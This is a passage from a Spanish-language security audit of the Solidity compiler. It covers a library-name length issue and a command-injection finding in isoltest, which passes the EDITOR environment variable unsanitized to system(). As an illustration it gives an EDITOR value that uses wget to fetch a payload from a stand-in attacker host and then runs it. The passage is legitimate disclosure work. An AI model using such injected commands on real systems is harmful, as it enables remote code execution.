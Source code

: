 Se recomendó considerar remover el tamaño máximo de nombre de librería por completo, o rediseñar la implementación para que permite utilizar librerías con nombres largos.\\

\textbf{Actualidad:} Existen \textit{issues} abiertos previos al respecto, \textbf{\#579}\cite{GHI579}, \textbf{\#3918}\cite{GHI3918} y \textbf{\#4429}\cite{GHI4429}. El equipo de Solidity respondió "Esta función no está aconsejada, los usuarios deben usar el json estándar que genera las referencias de enlace. Esto es sólo un problema en la interfaz en desuso del compilador". Solucionado en \textbf{PR\#5145}\cite{GHPR5145}.\\

\subsubsection{Llamadas inseguras al sistema pueden llevar a una ejecución de comandos durante la etapa de testeo.}

Comandos no sanitizados dados como argumentos para llamar a \texttt{system()} (o funciones similares como \texttt{popen()}) pueden permitir a un atacante ejecutar comandos de sistema arbitrarios.\\

El siguiente código de \textbf{isoltest} abre un editor del sistema al encontrar un error mientras testea contratos en Solidity:
\verb|/test/tools/isoltest.cpp:236|

\begin{lstlisting}[language=c++]
if (system((editor + " \"" + m_path.string() + "\"").c_str()))
  cerr << "Error running editor command." << endl << endl;
  return Request::Rerun;
\end{lstlisting}

El problema con el código anterior es que la llamada al sistema está hecha sobre una combinación de dos variables, y una de ellas no está propiamente sanitizada. \textbf{m\_path} es el path para el contrato en cuestión pero \textbf{editor} proviene de una variable de entorno, la cual controlada por un atacante puede resultar en una ejecución de comandos.\\

Como un simple ejemplo de cómo esto puede ser explotado, imaginemos el caso en el que un atacante haya accedido de alguna manera a manipular el contenido de la variable de entorno \verb|EDITOR|, y lo haya modificado de la siguiente manera:
\begin{lstlisting}[language=bash,caption={bash version}]
    EDITOR='wget http://attacker.site/expl;chmod +x expl;./expl; vim'
\end{lstlisting}

